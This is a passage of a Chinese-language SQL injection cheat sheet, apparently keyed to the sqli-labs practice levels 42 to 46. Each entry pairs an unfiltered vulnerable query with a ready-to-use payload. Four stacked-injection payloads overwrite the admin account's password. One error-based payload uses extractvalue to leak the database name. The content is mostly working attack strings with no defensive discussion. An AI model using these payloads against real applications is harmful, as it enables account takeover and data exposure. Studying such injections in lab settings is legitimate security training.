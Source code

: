### 42、堆叠注入 [ ' ]

```mysql
# SQL语句
SELECT * FROM users WHERE username='$username' and password='$password'；
# 过滤语句
无
# Payload
123456';update users set password='123456' where username='admin';--+
```

### 43、堆叠注入 [ ') ]

```mysql
# SQL语句
SELECT * FROM users WHERE username=('$username') and password=('$password');
# 过滤语句
无
# Payload
123456');update users set password='123456' where username='admin';--+
```

### 44、堆叠注入 [ ' ]

```mysql
# SQL语句
SELECT * FROM users WHERE username='$username' and password='$password'；
# 过滤语句
无
# Payload
12345';update users set password='123456' where username='admin';--+
```

### 45、堆叠注入 [ ') ]

```mysql
# SQL语句
SELECT * FROM users WHERE username=('$username') and password=('$password');
# 过滤语句
无
# Payload
12345');update users set password='123456' where username='admin';--+
```

### 46、报错注入 [ ]

```python
# SQL语句
SELECT * FROM users ORDER BY $id;
# 过滤语句
无
# Payload
?sort=-1 and extractvalue(1,concat(0x7e,(database()),0x7e)) %23
```
